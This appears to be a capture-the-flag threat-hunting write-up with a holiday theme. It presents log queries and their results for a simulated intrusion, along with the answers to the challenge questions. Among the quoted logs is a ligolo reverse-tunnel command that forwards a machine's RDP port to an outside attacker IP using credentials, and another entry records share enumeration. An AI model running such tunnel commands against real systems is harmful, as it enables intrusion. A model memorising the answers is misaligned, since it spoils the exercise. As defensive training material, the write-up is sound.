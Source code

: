 ```
"timestamp": 2023-12-02T10:14:21Z,
"hostname": Y1US-DESKTOP,
"username": alsnowball,
"sha256": 4c199019661ef7ef79023e2c960617ec9a2f275ad578b1b1a027adb201c165f3,
"path": C:\ProgramData\Windows\Jolly\giftwrap.exe,
"filename": giftwrap.exe,
"process_name": explorer.exe
```

#### Case 4: 

### Question 4

!!! question "Question" 
    The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?

    113.37.9.17

    What is the timestamp when the attackers enumerated network shares on the machine?

    2023-12-02T16:51:44Z

    What was the hostname of the system the attacker moved laterally to?

    NorthPolefileshare

```
ProcessEvents
| where hostname == "Y1US-DESKTOP" and process_commandline contains "forward"

"timestamp": 2023-12-02T11:11:29Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": "ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof,
"process_name": ligolo,
"process_hash": e9b34c42e29a349620a1490574b87865cc1571f65aa376b928701a034e6b3533,
"hostname": Y1US-DESKTOP,
"username": alsnowball

ProcessEvents
| where hostname == "Y1US-DESKTOP" and process_commandline =="net share"

"timestamp": 2023-12-02T16:51:44Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": net share,
"process_name": net.exe,
"process_hash": 8b5b1556ba468035a37b40d8ea42a4bff252f4502b97c52fcacb3ba269527a57,
"hostname": Y1US-DESKTOP,
"username": alsnowball


InboundNetworkEvents
| where src_ip has "113.37.9.17"

"timestamp": 2023-12-02T11:29:55Z,
"method": GET,
"src_ip": 113.37.9.17,
"user_agent": Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/5.1),
"url": https://santaworkshopgeeseislands.org/search=santa+clauce+naughty+nice+list


PassiveDns
| where ip has "113.37.9.17"
```